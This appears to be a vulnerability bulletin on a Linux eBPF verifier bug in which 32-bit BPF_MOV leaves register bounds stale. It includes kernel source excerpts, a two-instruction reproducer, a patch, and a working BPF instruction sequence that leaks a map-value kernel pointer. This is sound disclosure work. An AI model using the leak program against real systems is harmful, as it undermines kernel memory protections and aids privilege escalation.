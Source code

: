 ```yaml
---
layout: post
title: "eBPF verifier bug: Forgot to update reg bounds after calling zext_32_to_64"
type: "bulletin"
---
```


````
-- [ Description

Most of the time it is needed to call zext_32_to_64() when verifying
32b BPF_ALU instructions. It will finally call
__reg_assign_32_into_64() to update 64b bounds using 32b bounds (1).

```
/* BPF architecture zero extends alu32 ops into 64-bit registesr */
static void zext_32_to_64(struct bpf_reg_state *reg)
{
    reg->var_off = tnum_subreg(reg->var_off);
    __reg_assign_32_into_64(reg);    <---- (1)
}
```

When both s32_min_value and s32_max_value are positive,
__reg_assign_32_into_64() directly pulls the 32-bit signed bounds into
the 64-bit bounds, otherwise it sets the 64-bit bounds to worse case
bounds. It says that the 64-bit bounds will be refined later from tnum
(2). But it actually forgot to do so in some cases, see below.

```
static void __reg_assign_32_into_64(struct bpf_reg_state *reg)
{
    reg->umin_value = reg->u32_min_value;
    reg->umax_value = reg->u32_max_value;
    /* Attempt to pull 32-bit signed bounds into 64-bit bounds
     * but must be positive otherwise set to worse case bounds
     * and refine later from tnum.    <---- (2)
     */
    if (reg->s32_min_value >= 0 && reg->s32_max_value >= 0)
        reg->smax_value = reg->s32_max_value;
    else
        reg->smax_value = U32_MAX;
    if (reg->s32_min_value >= 0)
        reg->smin_value = reg->s32_min_value;
    else
        reg->smin_value = 0;
}
```

The verification of most BPF_ALU instructions will finally execute
into adjust_scalar_min_max_vals() from check_alu_op(), at the end of
this function, it will call zext_32_to_64() when the instruction is a
32-bit ALU operation, and update the bounds immediately afterwards,
things seem to be going well but with one exception.

```
static int adjust_scalar_min_max_vals(struct bpf_verifier_env *env,
                      struct bpf_insn *insn,
                      struct bpf_reg_state *dst_reg,
                      struct bpf_reg_state src_reg)
{
    ...
    /* ALU32 ops are zero extended into 64-bit register */
    if (alu32)
        zext_32_to_64(dst_reg);

    __update_reg_bounds(dst_reg);
    __reg_deduce_bounds(dst_reg);
    __reg_bound_offset(dst_reg);
    return 0;
}
```

Instruction class BPF_MOV, perhaps due to it not requiring complicated
bounds adjustments, will not call the adjust_scalar_min_max_vals(),
and when it is a 32-bit ALU operation, zext_32_to_64() is also called.
But in this case, it seems to forget to update the bounds with tnum as
commented in __reg_assign_32_into_64().

```
static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
{
    ...
    if (opcode == BPF_END || opcode == BPF_NEG) {
        ...
    } else if (opcode == BPF_MOV) {
        ...
        if (BPF_SRC(insn->code) == BPF_X) {
            ...
            if (BPF_CLASS(insn->code) == BPF_ALU64) {
                ...
            } else {
                ...
                zext_32_to_64(dst_reg);    <---- (3)
            }
        }
    } else if (opcode > BPF_END) {
        ...
    } else {    /* all other ALU ops: and, sub, xor, add, ... */
        ...
        return adjust_reg_min_max_vals(env, insn);
    }
    return 0;
}
```

When the source operand is a const scalar, dst_reg will be a const
scalar with smax_value not equal to smin_value. This breaks some
internal assumptions of the verifier, and at least can be used to leak
the pointer of MAP_VALUE.

-- [ Affected Versions

Latest version (v5.16-rc3) of Linux.

-- [ Reproducer

To trigger this bug just need two instructions:

```
BPF_MOV32_IMM(BPF_REG_0, 0xFFFFFFFF)
BPF_MOV32_REG(BPF_REG_0, BPF_REG_0)
```

-- [ Mitigation

Perhaps the easiest way is to copy the codes that update the bounds
from adjust_scalar_min_max_vals().

```
diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index e76b55917905..2d1105ca7c59 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -8098,6 +8098,9 @@ static int check_alu_op(struct bpf_verifier_env
*env, struct bpf_insn *insn)
                                                         insn->dst_reg);
                                }
                                zext_32_to_64(dst_reg);
+                               __update_reg_bounds(dst_reg);
+                               __reg_deduce_bounds(dst_reg);
+                               __reg_bound_offset(dst_reg);
                        }
                } else {
                        /* case: R = imm
```

-- [ Exploitability

off_reg is checked at the beginning of adjust_ptr_min_max_vals(), if
off_reg is the previously described register that had triggered the
bug, dst_reg (i.e, ptr_reg) will be marked as unknown, while dst_reg
contains a pointer to MAP_VALUE, and this branch is not a dead branch.

```
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
                   struct bpf_insn *insn,
                   const struct bpf_reg_state *ptr_reg,
                   const struct bpf_reg_state *off_reg)
{
    ...
    bool known = tnum_is_const(off_reg->var_off);
    s64 smin_val = off_reg->smin_value, smax_val = off_reg->smax_value,
        smin_ptr = ptr_reg->smin_value, smax_ptr = ptr_reg->smax_value;
    u64 umin_val = off_reg->umin_value, umax_val = off_reg->umax_value,
        umin_ptr = ptr_reg->umin_value, umax_ptr = ptr_reg->umax_value;
    if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
        smin_val > smax_val || umin_val > umax_val) {
        /* Taint dst register if offset had invalid bounds derived from
         * e.g. dead branches.
         */
        __mark_reg_unknown(env, dst_reg);
        return 0;
    }
    ...
}
```

So we can leak pointer by the following instructions:

```
struct bpf_insn insn[] =
{
    // load store_map values ptr into reg_0
    BPF_MOV64_IMM(BPF_REG_0, 0), \
    BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4), \
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10), \
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4), \
    BPF_LD_MAP_FD(BPF_REG_1, STORE_MAP_FD), \
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1), \
    BPF_EXIT_INSN(), \
    BPF_MOV64_REG(STORE_MAP_REG, BPF_REG_0), \
    BPF_MOV64_REG(CORRUPT_MAP_REG, BPF_REG_0), \
    BPF_MOV32_IMM(BPF_REG_0, 0),
    // trigger the bug
    BPF_MOV32_IMM(EXPLOIT_REG, 0xFFFFFFFF), \
    BPF_MOV32_REG(EXPLOIT_REG, EXPLOIT_REG), \
    // mark CORRUPT_MAP_REG as unknown
    BPF_ALU64_REG(BPF_SUB, CORRUPT_MAP_REG, EXPLOIT_REG), \
    // store the leaked BPF ptr into store map
    BPF_STX_MEM(BPF_DW, STORE_MAP_REG, CORRUPT_MAP_REG, 8), \
    BPF_EXIT_INSN()
};
```

I have spent some time thinking about whether this vulnerability can
be used to achieve LPE, but got nothing. But I think the eBPF
subsystem is very special in exploitability, and full of
possibilities.

-- [ References

* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=3cf2b61eb06765e27fec6799292d9fb46d0b7e60
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=e572ff80f05c33cd0cb4860f864f5c9c044280b6
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=b1a7288dedc6caf9023f2676b4f5ed34cf0d4029

````